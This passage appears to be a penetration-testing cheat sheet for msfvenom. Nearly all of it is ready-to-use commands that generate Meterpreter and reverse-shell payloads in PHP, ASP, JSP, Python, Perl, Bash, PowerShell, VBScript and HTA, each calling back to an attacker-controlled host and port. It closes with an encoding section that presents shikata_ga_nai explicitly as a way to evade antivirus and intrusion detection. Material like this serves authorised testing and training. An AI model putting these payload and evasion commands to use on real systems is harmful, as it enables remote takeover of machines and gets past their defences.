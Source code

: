 #### Web Payloads
1. **PHP**
	```bash
	msfvenom -p php/meterpreter_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f raw > shell.php
	```
2. **ASP**
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f asp > shell.asp
	```
3. **JSP**
	```bash
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f raw > shell.jsp
	```

#### Scripting Payloads
1. **Python**
	```bash
	msfvenom -p python/meterpreter_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f raw > shell.py
	```
2. **Perl**
	```bash
	msfvenom -p cmd/unix/reverse_perl LHOST=<attack_ip> LPORT=<attack_port> -f raw > shell.pl
	```
3. **Bash**
	```bash
	msfvenom -p cmd/unix/reverse_bash LHOST=<attack_ip> LPORT=<attack_port> -f raw > shell.sh
	```

#### Windows Scripting Payloads
1. **PowerShell**
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f psh > shell.ps1
	```
2. **VBScript**
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f vbs > shell.vbs
	```
3. **HTA (HTML Application)**
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f hta-psh > shell.hta
	```

## Encoding Options
Encoding payloads helps to evade detection by antivirus and intrusion detection systems. Msfvenom supports various encoders.

1. **Encoder Structure:**
	```bash
	<architecture>/<encoder_name>
	```
2. **List Encoders:**
	```bash
	msfvenom -l encoders
	```
3. **Single Encoding:** Encoding is useful for evading signature-based detection mechanisms.
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -e x86/shikata_ga_nai -f exe -o shell_encoded.exe
	```